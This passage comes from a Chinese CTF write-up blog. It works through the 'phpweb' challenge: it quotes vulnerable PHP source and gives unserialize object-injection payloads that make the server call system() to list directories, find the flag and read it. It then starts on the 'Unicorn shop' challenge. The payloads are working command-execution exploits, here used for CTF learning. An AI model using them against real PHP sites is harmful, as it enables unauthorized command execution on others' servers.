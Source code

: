 ```php
    $func = $_REQUEST["func"];
    $p = $_REQUEST["p"];

    if ($func != null) {
        $func = strtolower($func);
        if (!in_array($func,$disable_fun)) {
            echo gettime($func, $p);
        }else {
            die("Hacker...");
        }
    }
    ?>

```

下面我们来代码审计

* 过滤敏感函数名称....很多很多
* `call_user_func`把后买你的参数调给第一个参数代表的函数当作参数使用，于是乎才有我们能执行读取源码的操作，所以说`gettime`是一个自定义的函数，可以被我们用来执行其他函数
* 下面还定义了一个类，可能和反序列化有关
* 用`REQUEST`方式获取参数
* 对`fuc`进行过滤，如果不在黑名单里就能执行

学习前辈思想

既然是执行php函数，那可以利用反序列化进行绕过，函数为`unserialize`,参数为包含信息序列化后的结果

注意，传递的这两个参数放到代码里执行之后是成功反序列化，真正执行函数是反序列化之后出来的类执行了类里面的`gettime`函数


`func=unserialize&p=O:4:"Test":2:{s:1:"p";s:12:"ls ../../../";s:4:"func";s:6:"system";}`
但是发现找不到`flag`这个文件

>[[网鼎杯 2020 朱雀组]phpweb](https://www.cnblogs.com/h3ng/p/12971253.html)

使用`find`函数找flag

`func=unserialize&p=O:4:"Test":2:{s:1:"p";s:20:"find / -name 'flag*'";s:4:"func";s:6:"system";}`

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210611183208262.png)再次构造payload

`func=unserialize&p=O:4:"Test":2:{s:1:"p";s:22:"cat /tmp/flagoefiu4r93";s:4:"func";s:6:"system";}`

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210611183730526.png)
**思路巧妙啊**

# [ASIS 2019]Unicorn shop

**崩了，前面的几道不会，我找个整块的学习时间学一下原理**

看看这个友好的题目吧
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210611193301218.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1ODM3ODk2,size_16,color_FFFFFF,t_70)
让我们输入商品名和价格买一只独角兽，输入对应的`id`和`price`发现前三个都不能买，让我们买第四个，但是会报错
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210611193427623.png)
用一个字符作为价格输入，我当时不懂这要怎么弄
看了一下大佬的博客
>[参见](https://blog.csdn.net/SopRomeo/article/details/105465756)
